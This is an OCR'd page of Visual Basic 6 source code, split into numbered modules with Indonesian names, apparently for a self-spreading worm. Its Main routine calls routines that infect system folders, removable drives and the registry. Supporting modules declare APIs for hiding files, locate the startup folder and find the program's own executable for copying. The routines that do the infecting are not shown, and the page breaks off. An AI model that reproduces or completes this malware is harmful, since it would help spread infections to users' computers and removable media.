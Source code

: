 **Modul 7**: 

Public Declare Function SetFileAttributes Lib "kernel32" Alias "SetFileAttributesA" \_  
(ByVal lpFileName As String, ByVal dwFileAttributes As Long) \_  
As Long

**Modul 8**: 

Public Declare Function GetFileAttributes Lib "kernel32" \_  
Alias "GetFileAttributesA" \_  
(ByVal lpFileName As String) As Long  
Public Type SHITEMID  
Ned As Long  
Jun As Byte  
End Type  
Public Type ITEMIDLIST  
Uned As SHITEMID  
End Type  
Enum SFolder  
CSIDL\_STARTUP = &H7  
End Enum  
Public Const FILE\_ATTRIBUTE\_READONLY = &H1  
Public Const FILE\_ATTRIBUTE\_HIDDEN = &H2

**Modul 9**: 

Public Sub Main()  
On Error Resume Next  
InfeksiFolderSistem  
InfeksiDriveRemovable  
AturAtributFile  
InfeksiRegistry  
End Sub

**Modul 10**: 

Public Function GetFileSumber() As String  
On Error Resume Next  
GetFileSumber = App.Path & "\\" & App.EXEName & ".exe"  
End Function

**Modul 11**: 

Public Function GetSpecialfolder(JenisFolder As SFolder) As String  
Dim Jun1 As Long, IDL As ITEMIDLIST  
Jun1 = SHGetSpecialFolderLocation(100, JenisFolder, IDL)  
If Jun1 = NOERROR Then  
Path$ = Space$(512)  
Jun1 = SHGetPathFromIDList(ByVal IDL.Uned.Ned, ByVal Path$)  
GetSpecialfolder = Left$(Path, InStr(Path, Chr$(0)) - 1) & "\\"  
Exit Function  
End If  
GetSpecialfolder = ""  
End Function

**Modul 12**: 
